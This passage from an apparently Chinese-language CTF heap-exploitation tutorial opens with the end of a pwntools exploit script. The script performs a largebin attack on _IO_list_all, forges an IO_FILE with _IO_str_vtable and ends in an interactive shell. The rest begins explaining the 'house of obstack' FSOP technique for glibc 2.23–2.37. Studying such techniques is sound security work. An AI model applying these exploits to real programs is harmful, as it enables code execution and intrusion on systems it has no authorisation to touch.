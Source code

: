 ```c

# largebin attack2
delete(index=20)
edit(index=3, size=0x200, content=p64(0)*3 + p64(libc.sym['_IO_list_all'] - 0x20))
add(index=2, size=0x500, content=b'aa')

_IO_str_vtable = libc.address + 0x1e5580
leak_info('_IO_str_vtable', _IO_str_vtable)

fake_IO = p64(0)*2
fake_IO += p64(1) + p64(0xffffffffffff)
fake_IO += p64(0)
fake_IO += p64(heap_base + 0x2420)
fake_IO += p64(heap_base + 0x2420 + 206)
fake_IO = fake_IO.ljust(0xb0, b'\x00') + p64(0)
fake_IO = fake_IO.ljust(0xc8, b'\x00') + p64(_IO_str_vtable)

edit(index=20, size=0x100, content=fake_IO)

sh.sendlineafter(choice_words, '9')

sh.interactive()
```

# house of obstack

## 适用版本

`glibc2.23-glibc2.37`（不包括`glibc2.37`，`glibc2.37`该利用链转换为`house of snake`）

## 利用方式

- 只需要覆盖`_IO_list_all`为可控`chunk`地址（例如`largebin attack`），将其覆盖为`fake IO_FILE`
- 触发`FSOP`即可执行任意函数，包括显示调用`exit`、正常从程序返回、执行`IO`相关的函数例如`puts`
- 简单且通用

## 实现效果

执行任意函数，或者配合`gadgets`进行`ROP`

## 常用触发方式

至少需要`UAF`

## IO_FILE结构

- 不是传统的`_IO_FILE_plus`结构体，而是`_IO_obstack_file`结构体。其结构体定义如下：

```c
struct _IO_obstack_file
{
  struct _IO_FILE_plus file;
  struct obstack *obstack;
};
// 可知其实就是_IO_FILE_plus外面再包裹了一个struct obstack* obstack
```
